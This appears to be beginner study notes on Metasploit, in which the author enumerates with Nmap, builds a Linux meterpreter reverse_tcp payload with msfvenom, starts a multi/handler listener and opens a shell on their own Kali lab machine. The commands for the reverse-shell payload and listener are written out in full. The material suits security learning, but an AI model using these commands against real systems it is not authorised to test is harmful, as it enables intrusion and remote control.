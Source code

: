 The first thing you do in terms of enumeration is using tools like NMap to find out what ports are open and what OS the system is using and what vulnerabilities we can find in order to exploit the system. Once we find the OS or the browser whose exploit is available in msfconsole we go ahead and start the process. 
The things we need to look for when we first find how we are going to exploit the system are the following things: 

$`RHOST -- This is the victim machine` 

$`LHOST -- This is the machine that we are attacking from, in our case the kali Linux` 

$`RPORT -- The target port` 

When we do options after we use any of the exploit, then if we do options we can see the parameters that are required. We must give the machine the parameters that say "required" 

The following steps should be followed in order to exploit a system. 

1. Search for the type of exploit that you will need. The examples for the way to look for exploits is as follows: 

$` search cve:2009 type:exploit platform:linux ` In this search line, we are looking for a CVE for 2009, the type we are looking for is exploit and the platform that we are looking the exploit for is Linux

$`Exploit -- gets you into a system` 

$`Payload -- lets system connect back to you`

When a payload is executed on a system, the listener is waiting. The listener being multi/handler. 

First we will do msfvenom, here we are exploiting our own machine so we do this outside of msfconsole in regular command prompt. 
In order to find the payloads to hack our own kali machine, we will be looking for the linux meterpreter. 

$`msfvenom --list payloads | grep meterpreter` The grep filter searches a file for a particular pattern of characters, and displays all lines that contain that pattern.
reverse_tcp allows the remote computer to connect to you. 

$`msfvenom --list format` This is the different types of formats that you can use. Since we are hacking a Linux machine, we will be using a elf file, which is the executable linux file. 

Creating a payload 

$`msfvenom --payload linux/x64/meterpreter/reverse_tcp lhost=10.0.2.15 lport=4444 --format elf -o file1`

In the above statement, we are creating a payload for our own kali machine, we will be using the reverse_tcp payload, lhost being the host machine that we are using. We will be using the listenining port 4444 and our format will be elf since we are using a linux machine and elf is a executable linux file $`-o` is the output and we give the filename file 1 where the output will be saved to. 

Now we open another tab and go inside msfconsole, once we get the $`msf6` we type in $`use exploit/multi/handler` and once we press enter, we wil get the $`msf6 exploit(multi/handler)`We can know if we are inside the exploit if it turns red on the command line. We type info now and it will give us information about it. Once we get that, we type in $`show payloads` and grab the same payload the $`linux/x64/meterpreter/reverse_tcp`. We $`set payload` or we can also use $`setpayload 431 `(number, in our case it was 431 and paste the same payload. We type $`show options` again. We can see that in the Payload options. We need to set lhost, which is required. We set $`set lhost 10.0.2.15` After that just hit $`run`. This has started the listening process. 

We go back to the msfvenom tab, we execute the payload. In order to do so, we need to give it more permission, so we do the $`chmod +x file1`. the chmod command gives the file all the authority it needs to read, write and execute. 
$`./file1` Enter. 
Now we go back to the msfconsole. The meterpreter shell has opened. It has connected to the Kali Machine. If we type $`getuid` we can see that we are inside the kali machine. we can also use $`sysinfo` we can see different things in there. 






